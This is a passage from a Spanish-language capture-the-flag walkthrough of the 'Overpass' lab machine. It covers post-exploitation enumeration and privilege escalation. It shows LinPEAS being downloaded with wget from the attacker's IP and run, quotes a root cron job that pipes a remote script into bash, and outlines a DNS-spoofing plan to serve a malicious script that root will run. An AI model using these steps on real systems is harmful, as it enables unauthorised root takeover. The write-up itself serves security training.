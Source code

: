 Transferimos el archivo al directorio /tmp para asegurar que tenemos permisos de escritura:

````
Bash
james@overpass-prod:/tmp$ wget http://[TU_IP]:8000/linpeas.sh
````

2️⃣ Ejecución de LinPEAS

Una vez transferido, le otorgamos permisos de ejecución y lo corremos:

<img width="432" height="25" alt="ejecutamos el linpeas mucha info " src="https://github.com/user-attachments/assets/74b4895c-d8d8-4522-8aab-39abe8f64465" />

````
Bash
james@overpass-prod:/tmp$ chmod +x linpeas.sh
james@overpass-prod:/tmp$ ./linpeas.sh
````

3️⃣ Filtrando la "Mucha Info"

LinPEAS es potente y produce una gran cantidad de información. El desafío es filtrar este output para encontrar el vector de escalada.


## 👑 Paso 14: Explotación de Cron Job como Vector a Root

El filtrado de la abundante información arrojada por LinPEAS (Paso 13), o la enumeración manual de archivos críticos, nos lleva a inspeccionar el archivo de tareas programadas del sistema: /etc/crontab.

🚨 Descubrimiento del Cron Job Vulnerable

Inspeccionamos el archivo de configuración de cron jobs del sistema:

<img width="954" height="293" alt="arhcivo cron vemos un archivo buildscript" src="https://github.com/user-attachments/assets/85059b77-01c0-480f-b22e-af59bd254239" />

````
Bash
james@overpass-prod:/tmp$ cat /etc/crontab

[...]
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
````
Esta línea es el vector de escalada de privilegios más crítico:

Frecuencia: Se ejecuta cada minuto (* * * * *).

Usuario: Se ejecuta como root (máximos privilegios).

Acción: Descarga un script (buildscript.sh) de un dominio externo (overpass.thm) y lo ejecuta directamente a través de bash.


## 💥 Estrategia de Explotación (DNS Spoofing)

Para explotar esta vulnerabilidad, debemos lograr que la máquina víctima resuelva el dominio overpass.thm a nuestra propia IP de ataque. Esto nos permitirá servir nuestro propio script malicioso, el cual será ejecutado por root cada minuto.
